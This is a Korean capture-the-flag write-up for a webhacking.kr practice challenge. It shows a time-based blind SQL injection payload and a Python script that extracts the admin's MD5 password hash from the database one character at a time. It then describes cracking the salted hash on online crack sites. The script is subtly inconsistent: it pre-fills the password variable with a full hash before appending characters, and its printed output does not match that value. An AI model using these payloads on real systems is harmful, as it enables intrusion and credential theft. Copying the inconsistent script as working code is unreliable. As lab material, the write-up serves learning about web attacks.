







# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

username에 ' or sleep(5) -- 를 넣어보면 SQLi가 되는 것을 확인할 수 있다.



join버튼을 누르고 username에 guest를 password에 guest를 넣어서 가입해보자.



그 이후 로그인을 하면 password hash 값을 출력한다.



해당 hash 값을 crack해보면 hash algorithm은 MD5이고 원문은 guestapple로 나온다. 즉, apple이라는 salt값을 확인 할 수 있다.

> [CrackStation](https://crackstation.net/)



그렇다면 DB에 저장되어 있는 password는 32글자로 고정이고, id는 admin이여야 하니 길이같은 것을 알필요는 없다.

다음과 같은 Python script로 admin의 password hash값을 알아내자.

```python
import urllib.request
import string
import time

SESSION_ID  = '7qhjh6nrlvcmheuia7h71vcgqe'
CHALLENGE   = 'https://webhacking.kr/challenge/bonus-2/index.php'

url             = CHALLENGE
header          = {'Cookie':'PHPSESSID='+SESSION_ID}
password_len    = 32
password        = '6c7ca386a903921d7fa230ffa0ffc153'
for i in range(1, password_len + 1):
    for c in string.printable.strip():
        id      = '\' or IF(SUBSTR(pw, {}, 1)=\'{}\' and id=\'admin\', sleep(2), sleep(0)) -- '.format(i, c)
        data    = urllib.parse.urlencode({'uuid':id, 'pw':'123'}).encode()
        request = urllib.request.Request(url, headers=header, data=data)
        s_time  = time.time()
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        e_time  = time.time()
        delay   = round(e_time - s_time)
        if delay >= 2:
            password  += c
            break
print('password : {}'.format(password))

[Output]
password : 6c9ca386a903921d7fa230ffa0ffc153
```

CrackStation에서는 crack을 하지 못해서 다른 사이트에서 crack을 하였다.

> [MD5 crack](https://www.md5online.org/md5-decrypt.html)



웹 기반 Hash Crack 사이트들에서 돌려본 결과이다.

|사이트 주소|결과|
|:---:|:---:|
|https://crackstation.net/|X|
|https://md5decrypt.net/en/|X|
|https://www.md5online.org/md5-decrypt.html|O|
|https://hashes.com/en/decrypt/hash|O|
|https://www.cmd5.org/|X|

찾아낸 password인 wow를 입력하여 점수를 획득하자.

